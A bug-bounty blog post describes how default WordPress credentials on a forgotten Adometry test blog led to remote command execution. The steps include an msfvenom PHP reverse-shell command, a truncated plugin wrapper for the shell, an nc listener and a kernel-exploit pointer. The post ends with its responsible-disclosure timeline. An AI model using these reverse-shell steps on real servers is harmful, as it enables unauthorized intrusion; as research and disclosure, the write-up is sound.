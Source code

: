 ```yaml
---
layout: post

title: "Getting a shell on a Google Acquisition"
subtitle: ""
cover_image: google/google.jpg

excerpt: "Forgotten Wordpress blog could be exploited to get remote command execution on Adometry by Google server "

author:
  name: Lorenzo Fontana
  twitter: r0rshark
  gplus: 110104859248839601734
  bio: Bug hunter and student at Polimi
  image: me.png
facebook:
  sharelink: /2015/07/30/google

---
```


### TL;DR
Default Wordpress credentials on an old version of the Adometry blog would have allowed an attacker to upload a PHP shell and execute remote commands.

### Google dorking
Instead of studying for the exams last month I tryed to discover some bugs in a Google Acquisition to get my name listed on the **Google Hall of Fame**. The acquisition which I have targeted is **Adometry by Google** a SaaS-based marketing attribution and optimization platform. Looking around on their website I have discovered the company blog located at [http://www.adometry.com/blog/](http://www.adometry.com/blog/) which runs the **latest version of Wordpress**.
Since the bugs are often located in hidden and old pages of the website let's give them a look. A very useful way to discover these pages is Google itself. Using some operands like ``site:`` or ``inurl:`` and combining these with the ``interval of dates filter`` it is possible to discover old pages of a particular website. Let's try it: ``site:adometry.com`` and set the interval of date in the past but not that much. Besides the pages which simply redirect to the main website I have noticed something strange:

<div class="full zoomable">
  <img src="/images/google/blog2013.png">
</div>

### The Wordpress test blog
The first thing that I have noticed was the title of the blog  **Test | Just another WordPress site - Adometry** which contains the magic keyword that every Penetration Tester/Bug Hunter is looking for: **Test** that in many case means vulnerable as hell. The second thing that I have noticed is that the url of this blog [http://www.adometry.com/blog2013/](http://www.adometry.com/blog2013/) is different from the official one that I have discovered before. By inspecting the source code of the page I discovered that the **Wordpress version was the 3.5.1** that has a lot of vulnerabilities like XSS XXE CSRF and maybe a [RCE](https://vagosec.org/2013/12/wordpress-rce-exploit/), but  I am a lazy guy, out there it was very hot, and I would like to go for a swim so I tryed to find an easier way in. I know for sure this was just a testing blog and so what are the **classical credetials** for a testing thing? The default ones and in the case of Wordpress the classical **admin:admin**. Let's give them a shot and here we are:
<div class="full zoomable">
  <img src="/images/google/wordpress.png">
</div>

### Getting a shell
The easiest way to get a shell once you have admin access to a Wordpress blog is to **upload a custom plugin** containing a reverse shell, enable it and visit the page which runs it:

- Create a **php reverse shell** using msfvenom and name the file shell.php:

<code >
msfvenom -p php/meterpreter_reverse_tcp LHOST=Your IP LPORT=Your Port -f raw > shell.php
</code>

- Add comments on the top of the shell.php to **make it a valid plugin** and compress it in zip format
{% highlight php %}
<?php
/*
*     Plugin Name: My Shell
*     Plugin URI: https://github.com/r0rshark/wordpress-shell
*     Description: Execute Commands as the webserver you are serving wordpress with
*     Author: r0rshark
*     Version: 0.2
*     Author URI: https://r0rshark.github.io
*                             */
    $ipaddr='Your IP';
    $port=Your Port;

      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      ...
      ?>
{% endhighlight %}
- **Upload and enable the plugin** in the Wordpress dashboard
<div class="full zoomable">
  <img src="/images/google/wordpress_plugin.png">
</div>

- **Setup a listener** at your ip and port used in the msfvenom command:

<code >
nc -lvp port
</code>

- **Execute the reverse shell** by visiting www.adometry.com/blog2013/wp-content/plugins/shell/shell.php

<div class="full zoomable">
  <img src="/images/google/shell.png">
</div>

### Maybe getting root
In the previous picture it is possible to see the current kernel version running on that machine which is the **2.6.32**. I think that there are known **public exploits** to get a root shell exploiting vulnerabilities in this kernel version. For example I have tested  [this](https://www.exploit-db.com/exploits/15704/) on a 2.6.31 kernel and since the exploit has been created to work with kernel < 2.6.37 I suppose that it can work as well. Obviously I haven't tried it because I think this would go beyond of the Bug Bounty scope.

- 1 July 2015 Vulnerability reported to the Google Security Team
- 2 July 2015 Vulnerability patched
- 9 July 2015 Got reward of $3133.7





